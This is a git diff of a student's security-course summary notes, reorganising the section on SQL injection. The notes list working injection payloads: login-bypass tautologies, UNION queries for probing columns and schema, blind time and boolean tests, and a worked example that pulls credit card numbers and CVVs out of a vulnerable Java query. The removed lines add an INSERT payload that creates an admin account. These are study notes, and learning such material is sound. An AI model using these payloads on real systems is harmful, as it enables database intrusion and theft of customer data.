

Before and after one commit to boostvolt/zhaw-summaries, a Typst document (Semester 7/Software & System Security 1/main.typ): page 1 of 6. Compiled offline with Typst 0.15; a missing font is replaced by an installed copy or a similar font.

Commit message:
refactor(sss1): clean up SQLi section structure
- Group into Detection | Exploitation | MySQL-specific | Counter
- Remove niche techniques (LIKE extraction, INSERT injection, etc.)
- Condense MySQL functions to single line

````diff
--- a/Semester 7/Software & System Security 1/main.typ
+++ b/Semester 7/Software & System Security 1/main.typ
@@ -138,43 +138,41 @@
   *Core idea*: User input treated as code, not data
 
   #subinline("SQL Injection")
+  *Detection:*
   - *Testing*: Insert `'` → SQL error (HTTP 500, different response) = vulnerable
   - *Blind SQLi* (no visible errors):
     - *Time-based*: ```sql SLEEP(5)``` causes delay if vulnerable
-    - *Boolean-based*: Different response for true/false conditions (e.g., ```sql ' AND 1=1--``` vs ```sql ' AND 1=2--```)
-    - *LIKE extraction*: Character-by-character: ```sql ' AND (SELECT col FROM t) LIKE 'a%'--``` → try each char until response changes
-  - *Tautology (always-true)*: ```sql ' OR ''='``` makes WHERE always TRUE:
-    - ```sql WHERE (userid=? AND password='') OR ''=''``` → first part fails, but ```sql ''=''``` is TRUE
-    - If app only reads first row: use `LIMIT offset,1` to select which row (e.g., ```sql ' OR 1=1 LIMIT 4,1#``` → 5th row)
+    - *Boolean-based*: Different response for true/false (```sql ' AND 1=1--``` vs ```sql ' AND 1=2--```)
+
+  *Exploitation:*
+  - *Tautology*: ```sql ' OR ''='``` makes WHERE always TRUE → bypass login
+    - If app reads first row only: `LIMIT offset,1` to select row (```sql ' OR 1=1 LIMIT 4,1#``` → 5th row)
   - *UNION attack*:
-    1. *Find column count*: Try ```sql ' UNION SELECT NULL--```, ```sql ' UNION SELECT NULL,NULL--```, etc. until no error
-    2. *Extract data*: ```sql ' UNION SELECT col1,col2,... FROM table--``` (column count must match original query)
-  - *Schema discovery* (find tables/columns first):
+    1. *Find column count*: ```sql ' UNION SELECT NULL--```, ```sql ' UNION SELECT NULL,NULL--```, etc. until no error
+    2. *Extract data*: ```sql ' UNION SELECT col1,col2,... FROM table--``` (count must match)
+  - *Schema discovery*:
     - Tables: ```sql UNION SELECT TABLE_NAME,NULL,... FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=DATABASE()--```
     - Columns: ```sql UNION SELECT COLUMN_NAME,NULL,... FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='target'--```
-  - *UNION attack example*:
+  - *UNION example*:
     ```java
     // Vulnerable: string concat
     String q = "SELECT HotelID, Desc, City, Price FROM Hotel " +
                "WHERE City LIKE '%" + city + "%' AND Price <= " + price;
     ```
-    Goal: Extract `CCNumber`, `CVV`, `FullName` from `Customer` table (4 columns needed to match)
+    Goal: Extract `CCNumber`, `CVV`, `FullName` from `Customer` (4 columns needed)
     - *city*: `' UNION SELECT 1, CCNumber, FullName, CVV FROM Customer--`
-    - *price*: `100` (anything valid, won't be reached)
-    - Result query: `...LIKE '%' UNION SELECT 1, CCNumber, FullName, CVV FROM Customer--%' AND...`
-    - The `--` comments out rest → returns all customer data instead of hotels
-  - *MySQL functions*:
+    - *price*: `100` (won't be reached)
+    - Result: `...LIKE '%' UNION SELECT 1, CCNumber, FullName, CVV FROM Customer--%' AND...`
+
+  *MySQL-specific:*
+  - *Comments*: ```sql --``` (+ space) or ```sql #``` to cut off rest of query
+  - *Functions*:
     - `LIMIT offset,count` → pagination (`LIMIT 4,1` = 5th row, 0-indexed)
-    - `GROUP_CONCAT(col)` → merge all rows into single string (useful for extracting multiple values)
-    - `CONCAT_WS(':',a,b,c)` → join columns with separator → `a:b:c`
-    - `DATABASE()` → current database name (for INFORMATION_SCHEMA queries)
-  - *Comments*: Cut off rest of query (e.g., ```sql admin'--``` ignores ```sql AND pass='...'```)
-    - MySQL: ```sql --``` + space after, or ```sql #```
-    - Others: ```sql --```
-  - *Multiple queries*: `;` separator only works if server uses `executeBatch()`
-  - *INSERT injection*: ```sql userpass'), ('admin', 'Superuser', 'adminpass')--```
-  - *Response fingerprinting* (Blind SQLi): Different error for "valid user, wrong pass" vs "invalid user" → oracle for user enumeration
-  - *Counter*: Prepared statements. Escaping (`'` → `\'`) is weaker - encoding issues, incomplete.
+    - `GROUP_CONCAT(col)` → merge all rows into single string
+    - `CONCAT_WS(':',a,b)` → join columns with separator
+    - `DATABASE()` → current database name
+
+  *Counter*: Prepared statements (see prevention section). Escaping is weaker.
 
   #subinline("OS Command Injection")
   - *Cause*: App executes OS commands with user input (Java `Runtime.exec()`, PHP `system()`)
````
